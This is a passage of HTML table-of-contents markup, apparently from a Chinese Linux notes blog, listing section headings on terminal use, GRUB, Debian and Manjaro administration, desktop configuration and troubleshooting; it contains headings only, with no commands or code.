class="toc-nav-text">终端多任务 - fg、bg、jobs</span></a></li><li class="toc-nav-item toc-nav-level-3"><a class="toc-nav-link" href="#管道"><span class="toc-nav-number">8.5.3.</span> <span class="toc-nav-text">管道</span></a></li><li class="toc-nav-item toc-nav-level-3"><a class="toc-nav-link" href="#Zhcon——tty终端显示中文的办法"><span class="toc-nav-number">8.5.4.</span> <span class="toc-nav-text">Zhcon——tty终端显示中文的办法</span></a></li><li class="toc-nav-item toc-nav-level-3"><a class="toc-nav-link" href="#不小心Ctrl-S冻结终端窗口的解决办法"><span class="toc-nav-number">8.5.5.</span> <span class="toc-nav-text">不小心Ctrl+S冻结终端窗口的解决办法</span></a></li><li class="toc-nav-item toc-nav-level-3"><a class="toc-nav-link" href="#终端Sudo不输入密码-sudo-None-Passwd"><span class="toc-nav-number">8.5.6.</span> <span class="toc-nav-text">终端Sudo不输入密码 - sudo None Passwd</span></a></li><li class="toc-nav-item toc-nav-level-3"><a class="toc-nav-link" href="#终端Sudo提前输入密码的方法"><span class="toc-nav-number">8.5.7.</span> <span class="toc-nav-text">终端Sudo提前输入密码的方法</span></a></li><li class="toc-nav-item toc-nav-level-3"><a class="toc-nav-link" href="#Bashrc-alias——自定义命令别名"><span class="toc-nav-number">8.5.8.</span> <span class="toc-nav-text">Bashrc alias——自定义命令别名</span></a></li><li class="toc-nav-item toc-nav-level-3"><a class="toc-nav-link" href="#Sed、Vim——文本处理"><span class="toc-nav-number">8.5.9.</span> <span class="toc-nav-text">Sed、Vim——文本处理</span></a></li><li class="toc-nav-item toc-nav-level-3"><a class="toc-nav-link" href="#从文本文件中删除空行的正则表达式-转载"><span class="toc-nav-number">8.5.10.</span> <span class="toc-nav-text">从文本文件中删除空行的正则表达式(转载)</span></a></li><li class="toc-nav-item toc-nav-level-3"><a class="toc-nav-link" href="#ZSH配置文件参考"><span class="toc-nav-number">8.5.11.</span> <span class="toc-nav-text">ZSH配置文件参考</span></a></li></ol></li><li class="toc-nav-item toc-nav-level-2"><a class="toc-nav-link" href="#系统管理"><span class="toc-nav-number">8.6.</span> <span class="toc-nav-text">系统管理</span></a><ol class="toc-nav-child"><li class="toc-nav-item toc-nav-level-3"><a class="toc-nav-link" href="#启动引导"><span class="toc-nav-number">8.6.1.</span> <span class="toc-nav-text">启动引导</span></a><ol class="toc-nav-child"><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#Efibootmgr——修改UEFI启动引导菜单"><span class="toc-nav-number">8.6.1.1.</span> <span class="toc-nav-text">Efibootmgr——修改UEFI启动引导菜单</span></a></li></ol></li><li class="toc-nav-item toc-nav-level-3"><a class="toc-nav-link" href="#磁盘管理相关"><span class="toc-nav-number">8.6.2.</span> <span class="toc-nav-text">磁盘管理相关</span></a><ol class="toc-nav-child"><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#Debian查看Bitlocker加密磁盘——最笨的办法"><span class="toc-nav-number">8.6.2.1.</span> <span class="toc-nav-text">Debian查看Bitlocker加密磁盘——最笨的办法</span></a></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#Ntfsfix——解决Linux挂载-Windows-NTFS-磁盘-Read-Only-状态"><span class="toc-nav-number">8.6.2.2.</span> <span class="toc-nav-text">Ntfsfix——解决Linux挂载 Windows NTFS 磁盘 Read-Only 状态</span></a></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#Linux-写入ISO文件到USB"><span class="toc-nav-number">8.6.2.3.</span> <span class="toc-nav-text">Linux 写入ISO文件到USB</span></a><ol class="toc-nav-child"><li class="toc-nav-item toc-nav-level-5"><a class="toc-nav-link" href="#USB-Imager"><span class="toc-nav-number">8.6.2.3.1.</span> <span class="toc-nav-text">USB Imager</span></a></li><li class="toc-nav-item toc-nav-level-5"><a class="toc-nav-link" href="#DD"><span class="toc-nav-number">8.6.2.3.2.</span> <span class="toc-nav-text">DD</span></a></li><li class="toc-nav-item toc-nav-level-5"><a class="toc-nav-link" href="#Fedora-Media-Writer"><span class="toc-nav-number">8.6.2.3.3.</span> <span class="toc-nav-text">Fedora Media Writer</span></a></li></ol></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#GPT-or-MBR-？"><span class="toc-nav-number">8.6.2.4.</span> <span class="toc-nav-text">GPT or MBR ？</span></a></li></ol></li><li class="toc-nav-item toc-nav-level-3"><a class="toc-nav-link" href="#网络、服务与进程"><span class="toc-nav-number">8.6.3.</span> <span class="toc-nav-text">网络、服务与进程</span></a><ol class="toc-nav-child"><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#Networking——网络"><span class="toc-nav-number">8.6.3.1.</span> <span class="toc-nav-text">Networking——网络</span></a></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#Top——任务管理器"><span class="toc-nav-number">8.6.3.2.</span> <span class="toc-nav-text">Top——任务管理器</span></a></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#杀死带有‘xxx’名称的进程"><span class="toc-nav-number">8.6.3.3.</span> <span class="toc-nav-text">杀死带有‘xxx’名称的进程</span></a></li></ol></li><li class="toc-nav-item toc-nav-level-3"><a class="toc-nav-link" href="#系统功能"><span class="toc-nav-number">8.6.4.</span> <span class="toc-nav-text">系统功能</span></a><ol class="toc-nav-child"><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#配置SSH"><span class="toc-nav-number">8.6.4.1.</span> <span class="toc-nav-text">配置SSH</span></a></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#无线网络"><span class="toc-nav-number">8.6.4.2.</span> <span class="toc-nav-text">无线网络</span></a><ol class="toc-nav-child"><li class="toc-nav-item toc-nav-level-5"><a class="toc-nav-link" href="#Linux开热点——Linux-AP"><span class="toc-nav-number">8.6.4.2.1.</span> <span class="toc-nav-text">Linux开热点——Linux AP</span></a></li><li class="toc-nav-item toc-nav-level-5"><a class="toc-nav-link" href="#命令行扫描无线网络"><span class="toc-nav-number">8.6.4.2.2.</span> <span class="toc-nav-text">命令行扫描无线网络</span></a></li><li class="toc-nav-item toc-nav-level-5"><a class="toc-nav-link" href="#关于网卡默认命名规则相关"><span class="toc-nav-number">8.6.4.2.3.</span> <span class="toc-nav-text">关于网卡默认命名规则相关</span></a></li><li class="toc-nav-item toc-nav-level-5"><a class="toc-nav-link" href="#Wireless-Attack"><span class="toc-nav-number">8.6.4.2.4.</span> <span class="toc-nav-text">Wireless Attack</span></a></li></ol></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#添加PPA仓库（私人软件包仓库）——谨慎"><span class="toc-nav-number">8.6.4.3.</span> <span class="toc-nav-text">添加PPA仓库（私人软件包仓库）——谨慎</span></a></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#谁在系统里？"><span class="toc-nav-number">8.6.4.4.</span> <span class="toc-nav-text">谁在系统里？</span></a></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#Linux查看开机时间"><span class="toc-nav-number">8.6.4.5.</span> <span class="toc-nav-text">Linux查看开机时间</span></a></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#【Linux“紧急制动”R-E-I-S-U-B】Alt-SysRq-系统应急控制键-——-类似Windows的Ctrl-Shift-Esc"><span class="toc-nav-number">8.6.4.6.</span> <span class="toc-nav-text">【Linux“紧急制动”R-E-I-S-U-B】Alt-SysRq 系统应急控制键 —— 类似Windows的Ctrl+Shift+Esc</span></a></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#查看网络状态"><span class="toc-nav-number">8.6.4.7.</span> <span class="toc-nav-text">查看网络状态</span></a></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#IPTABLES——关于Linux防火墙"><span class="toc-nav-number">8.6.4.8.</span> <span class="toc-nav-text">IPTABLES——关于Linux防火墙</span></a></li></ol></li><li class="toc-nav-item toc-nav-level-3"><a class="toc-nav-link" href="#系统配置"><span class="toc-nav-number">8.6.5.</span> <span class="toc-nav-text">系统配置</span></a><ol class="toc-nav-child"><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#同步NTP服务器时间"><span class="toc-nav-number">8.6.5.1.</span> <span class="toc-nav-text">同步NTP服务器时间</span></a></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#xserver允许显示多个用户的界面"><span class="toc-nav-number">8.6.5.2.</span> <span class="toc-nav-text">xserver允许显示多个用户的界面</span></a></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#尝试提升音质"><span class="toc-nav-number">8.6.5.3.</span> <span class="toc-nav-text">尝试提升音质</span></a></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#修改环境变量"><span class="toc-nav-number">8.6.5.4.</span> <span class="toc-nav-text">修改环境变量</span></a></li></ol></li></ol></li><li class="toc-nav-item toc-nav-level-2"><a class="toc-nav-link" href="#常见问题-FAQ-amp-HOWS"><span class="toc-nav-number">8.7.</span> <span class="toc-nav-text">常见问题 FAQ &amp; HOWS</span></a><ol class="toc-nav-child"><li class="toc-nav-item toc-nav-level-3"><a class="toc-nav-link" href="#HOWS"><span class="toc-nav-number">8.7.1.</span> <span class="toc-nav-text">HOWS</span></a><ol class="toc-nav-child"><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#Linux下如何效验下载的文件？"><span class="toc-nav-number">8.7.1.1.</span> <span class="toc-nav-text">Linux下如何效验下载的文件？</span></a></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#Linux如何给大文件分块（大文件分块后在Windows平台组合）？"><span class="toc-nav-number">8.7.1.2.</span> <span class="toc-nav-text">Linux如何给大文件分块（大文件分块后在Windows平台组合）？</span></a></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#生成RSA密钥"><span class="toc-nav-number">8.7.1.3.</span> <span class="toc-nav-text">生成RSA密钥</span></a></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#Linux远程桌面"><span class="toc-nav-number">8.7.1.4.</span> <span class="toc-nav-text">Linux远程桌面</span></a></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#我正在运行混合系统。我如何找出哪个包来自哪个发行版？"><span class="toc-nav-number">8.7.1.5.</span> <span class="toc-nav-text">我正在运行混合系统。我如何找出哪个包来自哪个发行版？</span></a></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#Linux误删除资料-RM-RF-？-，数据恢复"><span class="toc-nav-number">8.7.1.6.</span> <span class="toc-nav-text">Linux误删除资料(RM -RF ？)，数据恢复</span></a></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#Windows的免驱无线网卡插Linux系统显示U盘怎么办？"><span class="toc-nav-number">8.7.1.7.</span> <span class="toc-nav-text">Windows的免驱无线网卡插Linux系统显示U盘怎么办？</span></a></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#Debian开机很慢，卡在raising-up-network这一步"><span class="toc-nav-number">8.7.1.8.</span> <span class="toc-nav-text">Debian开机很慢，卡在raising up network这一步</span></a></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#Android-Studio-Duplicate-class-kotlin-collections-jdk8-CollectionsJDK8Kt-found-in-modules-kotlin-stdlib-1-8-10-org-jetbrains-kotlin-kotlin-stdlib-1-8-10-and-kotlin-stdlib-jdk8-1-6-21-org-jetbrains-kotlin-kotlin-stdlib-jdk8-1-6-21"><span class="toc-nav-number">8.7.1.9.</span> <span class="toc-nav-text">Android Studio: Duplicate class kotlin.collections.jdk8.CollectionsJDK8Kt found in modules kotlin-stdlib-1.8.10 (org.jetbrains.kotlin:kotlin-stdlib:1.8.10) and kotlin-stdlib-jdk8-1.6.21 (org.jetbrains.kotlin:kotlin-stdlib-jdk8:1.6.21)</span></a></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#Linux设置开机启动的方法"><span class="toc-nav-number">8.7.1.10.</span> <span class="toc-nav-text">Linux设置开机启动的方法</span></a><ol class="toc-nav-child"><li class="toc-nav-item toc-nav-level-5"><a class="toc-nav-link" href="#一、构建systemd服务"><span class="toc-nav-number">8.7.1.10.1.</span> <span class="toc-nav-text">一、构建systemd服务</span></a></li><li class="toc-nav-item toc-nav-level-5"><a class="toc-nav-link" href="#二、rc-d和profile-d"><span class="toc-nav-number">8.7.1.10.2.</span> <span class="toc-nav-text">二、rc.d和profile.d</span></a></li><li class="toc-nav-item toc-nav-level-5"><a class="toc-nav-link" href="#三、-etc-init-d"><span class="toc-nav-number">8.7.1.10.3.</span> <span class="toc-nav-text">三、&#x2F;etc&#x2F;init.d</span></a></li><li class="toc-nav-item toc-nav-level-5"><a class="toc-nav-link" href="#四、使用autostart文件夹"><span class="toc-nav-number">8.7.1.10.4.</span> <span class="toc-nav-text">四、使用autostart文件夹</span></a></li><li class="toc-nav-item toc-nav-level-5"><a class="toc-nav-link" href="#五、其他"><span class="toc-nav-number">8.7.1.10.5.</span> <span class="toc-nav-text">五、其他</span></a></li></ol></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#修改EXT硬盘分区的UUID"><span class="toc-nav-number">8.7.1.11.</span> <span class="toc-nav-text">修改EXT硬盘分区的UUID</span></a></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#Ffpmeg-concat合并视频时：-mp4-00000249e9f01480-Non-monotonous-DTS-in-output-stream-0-1-previous-36963852-current-36597661-changing-to-36963853-This-may-result-in-incorrect-timestamps-in-the-output-file"><span class="toc-nav-number">8.7.1.12.</span> <span class="toc-nav-text">Ffpmeg concat合并视频时：[mp4 @ 00000249e9f01480] Non-monotonous DTS in output stream 0:1;  previous: 36963852, current: 36597661; changing to 36963853. This may  result in incorrect timestamps in the output file.</span></a></li></ol></li><li class="toc-nav-item toc-nav-level-3"><a class="toc-nav-link" href="#GRUB——启动引导问题"><span class="toc-nav-number">8.7.2.</span> <span class="toc-nav-text">GRUB——启动引导问题</span></a><ol class="toc-nav-child"><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#使用-GRUB-命令行——grub-gt-和grub-rescue-gt"><span class="toc-nav-number">8.7.2.1.</span> <span class="toc-nav-text">使用 GRUB 命令行——grub&gt;和grub rescue&gt;</span></a><ol class="toc-nav-child"><li class="toc-nav-item toc-nav-level-5"><a class="toc-nav-link" href="#GRUB-gt-SHELL"><span class="toc-nav-number">8.7.2.1.1.</span> <span class="toc-nav-text">GRUB &gt; SHELL</span></a><ol class="toc-nav-child"><li class="toc-nav-item toc-nav-level-6"><a class="toc-nav-link" href="#使用命令行引导操作系统"><span class="toc-nav-number">8.7.2.1.1.1.</span> <span class="toc-nav-text">使用命令行引导操作系统</span></a></li><li class="toc-nav-item toc-nav-level-6"><a class="toc-nav-link" href="#分页支持"><span class="toc-nav-number">8.7.2.1.1.2.</span> <span class="toc-nav-text">分页支持</span></a></li></ol></li><li class="toc-nav-item toc-nav-level-5"><a class="toc-nav-link" href="#GRUB-RESCUE-gt-SHELL"><span class="toc-nav-number">8.7.2.1.2.</span> <span class="toc-nav-text">GRUB RESCUE &gt; SHELL</span></a><ol class="toc-nav-child"><li class="toc-nav-item toc-nav-level-6"><a class="toc-nav-link" href="#GRUB-救急与加密启动"><span class="toc-nav-number">8.7.2.1.2.1.</span> <span class="toc-nav-text">GRUB 救急与加密启动</span></a></li><li class="toc-nav-item toc-nav-level-6"><a class="toc-nav-link" href="#开机进入GRUB"><span class="toc-nav-number">8.7.2.1.2.2.</span> <span class="toc-nav-text">开机进入GRUB</span></a></li></ol></li></ol></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#安装GRUB后再安装Windows8——-boot-bcd-报错（错误代码为-0xc000000f）"><span class="toc-nav-number">8.7.2.2.</span> <span class="toc-nav-text">安装GRUB后再安装Windows8——\boot\bcd 报错（错误代码为 0xc000000f）</span></a></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#Device-dev-xxx-not-initialized-in-udev-database-even-after-waiting-10000000-microseconds"><span class="toc-nav-number">8.7.2.3.</span> <span class="toc-nav-text">Device &#x2F;dev&#x2F;xxx not initialized in udev database even after waiting 10000000 microseconds</span></a></li></ol></li><li class="toc-nav-item toc-nav-level-3"><a class="toc-nav-link" href="#软件包、依赖、桌面环境问题"><span class="toc-nav-number">8.7.3.</span> <span class="toc-nav-text">软件包、依赖、桌面环境问题</span></a><ol class="toc-nav-child"><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#Debian-12-bookworm-raspi-firmware-missing-boot-firmware-did-you-forget-to-mount-it"><span class="toc-nav-number">8.7.3.1.</span> <span class="toc-nav-text">Debian 12 bookworm: raspi-firmware: missing &#x2F;boot&#x2F;firmware, did you forget to mount it?</span></a></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#VirtualBox、WPS-Office等QT应用显示不正常-qt5ct提示：QT-QPA-PLATFORMTHEME变量未设置"><span class="toc-nav-number">8.7.3.2.</span> <span class="toc-nav-text">VirtualBox、WPS Office等QT应用显示不正常(qt5ct提示：QT_QPA_PLATFORMTHEME变量未设置)</span></a></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#新装的Debian-11-Inte-i5-10400-UHD630-开机黑屏"><span class="toc-nav-number">8.7.3.3.</span> <span class="toc-nav-text">新装的Debian 11 Inte i5-10400(UHD630)开机黑屏</span></a></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#解决”apt-f-install“失效，dpkg错误的方法"><span class="toc-nav-number">8.7.3.4.</span> <span class="toc-nav-text">解决”apt -f install“失效，dpkg错误的方法</span></a></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#Warning-apt-key-is-deprecated-SOLVED"><span class="toc-nav-number">8.7.3.5.</span> <span class="toc-nav-text">Warning: apt-key is deprecated (SOLVED)</span></a></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#Debian-GNOME显示网卡未托管"><span class="toc-nav-number">8.7.3.6.</span> <span class="toc-nav-text">Debian GNOME显示网卡未托管</span></a></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#GNOME共享设置中没有屏幕共享"><span class="toc-nav-number">8.7.3.7.</span> <span class="toc-nav-text">GNOME共享设置中没有屏幕共享</span></a></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#GNOME设置打不开——gnome-control-center-3592"><span class="toc-nav-number">8.7.3.8.</span> <span class="toc-nav-text">GNOME设置打不开——gnome-control-center:3592</span></a></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#解决GNOME-Wayland下fcitx不运行的办法"><span class="toc-nav-number">8.7.3.9.</span> <span class="toc-nav-text">解决GNOME Wayland下fcitx不运行的办法</span></a></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#GNOME锁屏无效、丢失锁屏按钮"><span class="toc-nav-number">8.7.3.10.</span> <span class="toc-nav-text">GNOME锁屏无效、丢失锁屏按钮</span></a></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#解决bash-completion安装后，终端仍无法自动补齐"><span class="toc-nav-number">8.7.3.11.</span> <span class="toc-nav-text">解决bash-completion安装后，终端仍无法自动补齐</span></a></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#解决Virtual-Box安装扩展包后无法访问USB"><span class="toc-nav-number">8.7.3.12.</span> <span class="toc-nav-text">解决Virtual Box安装扩展包后无法访问USB</span></a></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#解决Vbox-Linux虚拟机共享文件夹没访问权限"><span class="toc-nav-number">8.7.3.13.</span> <span class="toc-nav-text">解决Vbox Linux虚拟机共享文件夹没访问权限</span></a></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#Virtual-Box-6-1-34在Debian-11-Bullseye-启动虚拟机后频繁崩溃"><span class="toc-nav-number">8.7.3.14.</span> <span class="toc-nav-text">Virtual Box 6.1.34在Debian 11(Bullseye)启动虚拟机后频繁崩溃</span></a></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#系统软件包依赖大故障恢复——dpkg-configure-amp-dpkg-reconfigure"><span class="toc-nav-number">8.7.3.15.</span> <span class="toc-nav-text">系统软件包依赖大故障恢复——dpkg --configure &amp; dpkg-reconfigure</span></a></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#SSH密钥迁移后提示sign-and-send-pubkey-signing-failed-for-RSA-quot-home-xxx-ssh-id-rsa-quot-from-sign-and-send-pubkey-signing-failed-agent-refused-operation"><span class="toc-nav-number">8.7.3.16.</span> <span class="toc-nav-text">SSH密钥迁移后提示sign_and_send_pubkey: signing failed for RSA &quot;&#x2F;home&#x2F;xxx&#x2F;.ssh&#x2F;id_rsa&quot; from...| sign_and_send_pubkey: signing failed: agent refused operation</span></a></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#Git仓库体积过大，如何减小？"><span class="toc-nav-number">8.7.3.17.</span> <span class="toc-nav-text">Git仓库体积过大，如何减小？</span></a><ol class="toc-nav-child"><li class="toc-nav-item toc-nav-level-5"><a class="toc-nav-link" href="#Gitee说明的办法"><span class="toc-nav-number">8.7.3.17.1.</span> <span class="toc-nav-text">Gitee说明的办法</span></a></li><li class="toc-nav-item toc-nav-level-5"><a class="toc-nav-link" href="#我采用的方法"><span class="toc-nav-number">8.7.3.17.2.</span> <span class="toc-nav-text">我采用的方法</span></a></li></ol></li></ol></li><li class="toc-nav-item toc-nav-level-3"><a class="toc-nav-link" href="#未归类——杂记"><span class="toc-nav-number">8.7.4.</span> <span class="toc-nav-text">未归类——杂记</span></a></li></ol></li><li class="toc-nav-item toc-nav-level-2"><a class="toc-nav-link" href="#Debian-Notes"><span class="toc-nav-number">8.8.</span> <span class="toc-nav-text">Debian Notes</span></a><ol class="toc-nav-child"><li class="toc-nav-item toc-nav-level-3"><a class="toc-nav-link" href="#我该如何安装-Debian-Sid？"><span class="toc-nav-number">8.8.1.</span> <span class="toc-nav-text">我该如何安装 Debian Sid？</span></a></li><li class="toc-nav-item toc-nav-level-3"><a class="toc-nav-link" href="#Debian-Backports的简单使用"><span class="toc-nav-number">8.8.2.</span> <span class="toc-nav-text">Debian Backports的简单使用</span></a><ol class="toc-nav-child"><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#将反向端口添加到您的sources-list"><span class="toc-nav-number">8.8.2.1.</span> <span class="toc-nav-text">将反向端口添加到您的sources.list</span></a></li></ol></li><li class="toc-nav-item toc-nav-level-3"><a class="toc-nav-link" href="#从Backports安装软件包"><span class="toc-nav-number">8.8.3.</span> <span class="toc-nav-text">从Backports安装软件包</span></a><ol class="toc-nav-child"><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#“草率“（随意…-）发行版"><span class="toc-nav-number">8.8.3.1.</span> <span class="toc-nav-text">“草率“（随意…?）发行版</span></a></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#订阅安全公告邮件列表"><span class="toc-nav-number">8.8.3.2.</span> <span class="toc-nav-text">订阅安全公告邮件列表</span></a></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#报告错误"><span class="toc-nav-number">8.8.3.3.</span> <span class="toc-nav-text">报告错误</span></a></li></ol></li><li class="toc-nav-item toc-nav-level-3"><a class="toc-nav-link" href="#Systemd"><span class="toc-nav-number">8.8.4.</span> <span class="toc-nav-text">Systemd</span></a></li><li class="toc-nav-item toc-nav-level-3"><a class="toc-nav-link" href="#Debian-Package"><span class="toc-nav-number">8.8.5.</span> <span class="toc-nav-text">Debian Package</span></a></li></ol></li><li class="toc-nav-item toc-nav-level-2"><a class="toc-nav-link" href="#Manjaro-Notes"><span class="toc-nav-number">8.9.</span> <span class="toc-nav-text">Manjaro Notes</span></a><ol class="toc-nav-child"><li class="toc-nav-item toc-nav-level-3"><a class="toc-nav-link" href="#修改国内源"><span class="toc-nav-number">8.9.1.</span> <span class="toc-nav-text">修改国内源</span></a></li><li class="toc-nav-item toc-nav-level-3"><a class="toc-nav-link" href="#修改AUR源"><span class="toc-nav-number">8.9.2.</span> <span class="toc-nav-text">修改AUR源</span></a></li><li class="toc-nav-item toc-nav-level-3"><a class="toc-nav-link" href="#Pacman指南"><span class="toc-nav-number">8.9.3.</span> <span class="toc-nav-text">Pacman指南</span></a></li><li class="toc-nav-item toc-nav-level-3"><a class="toc-nav-link" href="#安装VirtualBox"><span class="toc-nav-number">8.9.4.</span> <span class="toc-nav-text">安装VirtualBox</span></a></li><li class="toc-nav-item toc-nav-level-3"><a class="toc-nav-link" href="#fcitx输入法"><span class="toc-nav-number">8.9.5.</span> <span class="toc-nav-text">fcitx输入法</span></a></li><li class="toc-nav-item toc-nav-level-3"><a class="toc-nav-link" href="#Do-WeChat——Docker微信"><span class="toc-nav-number">8.9.6.</span> <span class="toc-nav-text">Do-WeChat——Docker微信</span></a></li></ol></li><li class="toc-nav-item toc-nav-level-2"><a class="toc-nav-link" href="#Debian服务器-从命令行搭建X窗口"><span class="toc-nav-number">8.10.</span> <span class="toc-nav-text">Debian服务器 - 从命令行搭建X窗口</span></a><ol class="toc-nav-child"><li class="toc-nav-item toc-nav-level-3"><a class="toc-nav-link" href="#安装X窗口管理器"><span class="toc-nav-number">8.10.1.</span> <span class="toc-nav-text">安装X窗口管理器</span></a></li><li class="toc-nav-item toc-nav-level-3"><a class="toc-nav-link" href="#自动登录tty终端"><span class="toc-nav-number">8.10.2.</span> <span class="toc-nav-text">自动登录tty终端</span></a></li><li class="toc-nav-item toc-nav-level-3"><a class="toc-nav-link" href="#优化Fluxbox"><span class="toc-nav-number">8.10.3.</span> <span class="toc-nav-text">优化Fluxbox</span></a></li><li class="toc-nav-item toc-nav-level-3"><a class="toc-nav-link" href="#Fluxbox英特尔显卡调整亮度："><span class="toc-nav-number">8.10.4.</span> <span class="toc-nav-text">Fluxbox英特尔显卡调整亮度：</span></a></li><li class="toc-nav-item toc-nav-level-3"><a class="toc-nav-link" href="#系统托盘显示无线Wifi："><span class="toc-nav-number">8.10.5.</span> <span class="toc-nav-text">系统托盘显示无线Wifi：</span></a></li><li class="toc-nav-item toc-nav-level-3"><a class="toc-nav-link" href="#fluxbox-keys设置快捷键"><span class="toc-nav-number">8.10.6.</span> <span class="toc-nav-text">~&#x2F;.fluxbox&#x2F;keys设置快捷键</span></a></li><li class="toc-nav-item toc-nav-level-3"><a class="toc-nav-link" href="#fluxbox-menu-设置桌面主菜单-示例"><span class="toc-nav-number">8.10.7.</span> <span class="toc-nav-text">~&#x2F;.fluxbox&#x2F;menu 设置桌面主菜单(示例)</span></a></li><li class="toc-nav-item toc-nav-level-3"><a class="toc-nav-link" href="#fluxbox-startup-设置自启动项目，记得给予可执行权限！"><span class="toc-nav-number">8.10.8.</span> <span class="toc-nav-text">~&#x2F;.fluxbox&#x2F;startup 设置自启动项目，记得给予可执行权限！</span></a></li><li class="toc-nav-item toc-nav-level-3"><a class="toc-nav-link" href="#安装xfce4"><span class="toc-nav-number">8.10.9.</span> <span class="toc-nav-text">安装xfce4</span></a><ol class="toc-nav-child"><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#Xfce4提示缺少dbus-launcher"><span class="toc-nav-number">8.10.9.1.</span> <span class="toc-nav-text">Xfce4提示缺少dbus-launcher:</span></a></li><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#Xfce4锁屏"><span class="toc-nav-number">8.10.9.2.</span> <span class="toc-nav-text">Xfce4锁屏</span></a></li></ol></li></ol></li><li class="toc-nav-item toc-nav-level-2"><a class="toc-nav-link" href="#系统个性化——Customize"><span class="toc-nav-number">8.11.</span> <span class="toc-nav-text">系统个性化——Customize</span></a><ol class="toc-nav-child"><li class="toc-nav-item toc-nav-level-3"><a class="toc-nav-link" href="#Linux自定义安装"><span class="toc-nav-number">8.11.1.</span> <span class="toc-nav-text">Linux自定义安装</span></a><ol class="toc-nav-child"><li class="toc-nav-item toc-nav-level-4"><a class="toc-nav-link" href="#GRUB安装"><span class="toc-nav-number">8.11.1.1.</span> <span class="toc-nav-text">GRUB安装</span></a><ol class="toc-nav-child"><li class="toc-nav-item toc-nav-level-5"><a class="toc-nav-link" href="#Legacy-Boot——BIOS启动"><span class="toc-nav-number">8.11.1.1.1.</span> <span class="toc-nav-text">Legacy Boot——BIOS启动</span></a></li><li class="toc-nav-item toc-nav-level-5"><a class="toc-nav-link" href="#UEFI——UEFI启动"><span class="toc-nav-number">8.11.1.1.2.</span> <span class="toc-nav-text">UEFI——UEFI启动</span></a></li><li class="toc-nav-item toc-nav-level-5"><a class="toc-nav-link" href="#安装到-U-盘"><span class="toc-nav-number">8.11.1.1.3.</span> <span class="toc-nav-text">安装到 U 盘</span></a><ol class="toc-nav-child"><li class="toc-nav-item toc-nav-level-6"><a class="toc-nav-link" href="#BIOS"><span class="toc-nav-number">8.11.1.1.3.1.</span> <span class="toc-nav-text">BIOS</span></a></li><li class="toc-nav-item toc-nav-level-6"><a class="toc-nav-link" href="#EFI"><span class="toc-nav-number">8.11.1.1.3.2.</span> <span class="toc-nav-text">EFI</span></a></li></ol></li><li class="toc-nav-item toc-nav-level-5"><a class="toc-nav-link" href="#安装到分区上或者无分区磁盘上"><span class="toc-nav-number">8.11.1.1.4.</span> <span class="toc-nav-text">安装到分区上或者无分区磁盘上</span></a></li><li class="toc-nav-item toc-nav-level-5"><a class="toc-nav-link" href="#只生成-core-img"><span 